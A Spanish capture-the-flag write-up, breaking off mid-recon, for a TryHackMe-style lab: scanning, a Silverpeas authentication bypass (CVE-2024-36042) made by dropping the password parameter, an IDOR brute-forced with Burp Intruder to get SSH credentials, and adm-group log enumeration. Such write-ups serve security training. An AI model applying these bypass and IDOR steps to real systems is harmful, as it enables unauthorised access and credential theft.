

## Reconocimiento

Lanzamos **nmap** a todos los puertos, con scripts y versiones de software:
```
nmap -p- --min-rate 5000 -sVC -Pn -n 10.10.126.190 -oN nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-18 18:00 CET
Nmap scan report for 10.10.126.190
Host is up (0.059s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
|_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
8080/tcp open  http-proxy
|_http-title: Error
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Sat, 18 Jan 2025 17:01:17 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|_    Connection: close
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=1/18%Time=678BDE5D%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,C9,"HTTP/1\.1\x20404\x20Not\x20Found\r\nConnection:\x20clos
SF:e\r\nContent-Length:\x2074\r\nContent-Type:\x20text/html\r\nDate:\x20Sa
SF:t,\x2018\x20Jan\x202025\x2017:01:17\x20GMT\r\n\r\n<html><head><title>Er
SF:ror</title></head><body>404\x20-\x20Not\x20Found</body></html>")%r(HTTP
SF:Options,C9,"HTTP/1\.1\x20404\x20Not\x20Found\r\nConnection:\x20close\r\
SF:nContent-Length:\x2074\r\nContent-Type:\x20text/html\r\nDate:\x20Sat,\x
SF:2018\x20Jan\x202025\x2017:01:17\x20GMT\r\n\r\n<html><head><title>Error<
SF:/title></head><body>404\x20-\x20Not\x20Found</body></html>")%r(RTSPRequ
SF:est,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nC
SF:onnection:\x20close\r\n\r\n")%r(FourOhFourRequest,C9,"HTTP/1\.1\x20404\
SF:x20Not\x20Found\r\nConnection:\x20close\r\nContent-Length:\x2074\r\nCon
SF:tent-Type:\x20text/html\r\nDate:\x20Sat,\x2018\x20Jan\x202025\x2017:01:
SF:17\x20GMT\r\n\r\n<html><head><title>Error</title></head><body>404\x20-\
SF:x20Not\x20Found</body></html>")%r(Socks5,42,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(Ge
SF:nericLines,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x2
SF:00\r\nConnection:\x20close\r\n\r\n")%r(Help,42,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r
SF:(SSLSessionReq,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length
SF::\x200\r\nConnection:\x20close\r\n\r\n")%r(TerminalServerCookie,42,"HTT
SF:P/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConnection:\
SF:x20close\r\n\r\n")%r(TLSSessionReq,42,"HTTP/1\.1\x20400\x20Bad\x20Reque
SF:st\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(Kerberos
SF:,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r\nConn
SF:ection:\x20close\r\n\r\n")%r(SMBProgNeg,42,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\n")%r(LPD
SF:String,42,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x200\r
SF:\nConnection:\x20close\r\n\r\n")%r(LDAPSearchReq,42,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nContent-Length:\x200\r\nConnection:\x20close\r\n\r\
SF:n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 
```

Accedemos al sitio web de *Hack Smarter Security* en el puerto 80:


Enumeramos el usuario *scr1ptkiddy*, también hablan sobre un proyecto llamado *Silverpeas*:


En el puerto 8080, no encontramos de momento nada, el servidor nos devuelve un 404:


Lanzamos **dirsearch** en ambos servicios web, nos llama la atención los directorios y ficheros del servicio web por el puerto 8080:
```
dirsearch -u http://10.10.126.190:8080 -x 404 

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Documents/Silver Platter/reports/http_10.10.126.190_8080/_25-01-18_18-25-51.txt

Target: http://10.10.126.190:8080/

[18:25:51] Starting: 
[18:26:19] 302 -    0B  - /console/base/config.json  ->  /noredirect.html   
[18:26:19] 302 -    0B  - /console/login/LoginForm.jsp  ->  /noredirect.html
[18:26:19] 302 -    0B  - /console/  ->  /noredirect.html                   
[18:26:19] 302 -    0B  - /console/payments/config.json  ->  /noredirect.html
[18:26:19] 302 -    0B  - /console  ->  /noredirect.html
[18:26:19] 302 -    0B  - /console/j_security_check  ->  /noredirect.html
[18:27:09] 302 -    0B  - /website  ->  http://10.10.126.190:8080/website/  
                                                                             
Task Completed
```

Tras varios escaneos con diferentes diccionarios, parece que no hay nada más, pero recordamos que en el sitio web mencionaban varias palabras claves como "*scr1ptkiddy*" y "*Silverpeas*".

Probamos las dos combinaciones en directorios en ambos sitios web, logramos enumerar un aplicativo llamado *Silverpeas* en el servidor web del puerto 8080:


Vemos que hay una opción para recuperar la contraseña, hacemos una prueba con el usuario que habíamos enumerado anteriormente y parece que existe, debido a que muestra un mensaje de envío de un email a la cuenta asociada.


Igualmente podría ser un mensaje genérico, así que hacemos una nueva prueba añadiendo un "*2*" en el usuario, vemos que no nos permite ejecutar la recuperación de contraseña y nos devuelve un error "*Login or password incorrect*", esto nos permite enumerar posibles usuarios registrados por medio de esta opción:


Probamos a buscar las credenciales por defecto, pero tampoco son válidas:


## Explotación
Buscando por internet posibles exploits y CVE asociados, encontramos el **CVE-2024-36042** junto esta prueba de concepto para evadir el sistema de autenticación:
- [https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d](https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d)

La evasión consiste en capturar la petición de login con el usuario *SilverAdmin*, eliminando el parámetro *Password* por completo:


Una vez enviada la petición, el aplicativo nos permite el acceso sin disponer de la contraseña:


Revisando la aplicación, encontramos un sistema de mensajería con el usuario *scr1ptkiddy*, podría ser interesante para intentar un ataque XSS y robar la cookie de sesión:


Continuamos revisando la aplicación, vemos que hay un sistema de notificaciones en nuestro área personal:


Interceptamos la petición, vemos que las notificaciones se cargan por un valor numérico desde el parámetro *ID*:


Probamos a modificar el valor "*2*" por "*3*", apreciamos que funciona, por lo que identificamos que la aplicación tiene un fallo de autorización de tipo IDOR (*Insecure direct object reference*), esta deficiencia nos permite visualizar los mensajes de otros usuarios sin estar debidamente autenticados como tal:


Utilizamos *Burp Intruder* para automatizar el ataque, logramos enumerar unas credenciales **SSH**:


Utilizamos las credenciales del usuario *Tim* por **SSH**, y logramos leer la flag de user:
```
tim@10.10.126.190                        
tim@10.10.126.190's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan 18 06:35:44 PM UTC 2025

  System load:  0.11572265625     Processes:                125
  Usage of /:   90.0% of 8.33GB   Users logged in:          0
  Memory usage: 54%               IPv4 address for docker0: 172.17.0.1
  Swap usage:   0%                IPv4 address for ens5:    10.10.126.190

  => / is using 90.0% of 8.33GB

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

39 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Dec 13 16:33:12 2023 from 192.168.1.20
tim@silver-platter:~$ ls
user.txt
tim@silver-platter:~$ cat user.txt 
THM{**********************}
tim@silver-platter:~$ 

```

## Escalada de privilegios
Vemos que pertenecemos al grupo "*adm*":
```
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
tim@silver-platter:~$ 
```

Buscamos ficheros que tengamos permisos otorgados por el grupo *adm*, logramos enumerar varios ficheros logs:
```
tim@silver-platter:~$ find / -group adm 2>/dev/null
/var/log/kern.log
/var/log/syslog.3.gz
/var/log/kern.log.2.gz
/var/log/syslog.2.gz
/var/log/auth.log.1
/var/log/kern.log.1
/var/log/dmesg.4.gz
/var/log/dmesg
/var/log/unattended-upgrades
/var/log/unattended-upgrades/unattended-upgrades-dpkg.log
/var/log/unattended-upgrades/unattended-upgrades-dpkg.log.1.gz
/var/log/apt/term.log.1.gz
